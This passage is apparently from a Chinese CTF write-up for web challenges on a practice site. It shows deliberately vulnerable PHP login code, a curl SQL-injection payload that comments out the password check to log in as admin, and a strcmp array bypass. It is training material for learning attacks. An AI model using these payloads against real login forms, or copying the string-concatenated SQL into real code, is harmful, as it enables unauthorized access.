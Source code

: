 ```php
# Source
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
```
因为用了trim，要在`-- `空格的后面加上其它字符，否则注释的作用会失效。
```shell
curl http://chinalover.sinaapp.com/index.php -X POST -d 'user=admin%27%29+--+k&pass=Password'
```

## [pass check](http://chinalover.sinaapp.com/web21/)
```php
# Source
$pass=@$_POST['pass'];
$pass1=***********;//被隐藏起来的密码
if(isset($pass))
{
  if(@!strcmp($pass,$pass1)){
    echo "flag:nctf{*}";
  }else{
    echo "the pass is wrong!";
  }
}else{
  echo "please input pass!";
}
```
当输入参数是一个数组时，strcmp会报错并且无返回：
```shell
curl http://chinalover.sinaapp.com/web21/ -X POST -d 'pass[]='
```



## [起名字真难](http://chinalover.sinaapp.com/web12/index.php)
源代码要求1. 输入不是1-9；2.等于54975581388

```php
function noother_says_correct($number)
{
       $one = ord('1');
       $nine = ord('9');
       for ($i = 0; $i < strlen($number); $i++)
       {   
               $digit = ord($number{$i});
               if ( ($digit >= $one) && ($digit <= $nine) )
               {
                       return false;
               }
       }
          return $number == '54975581388';
}
```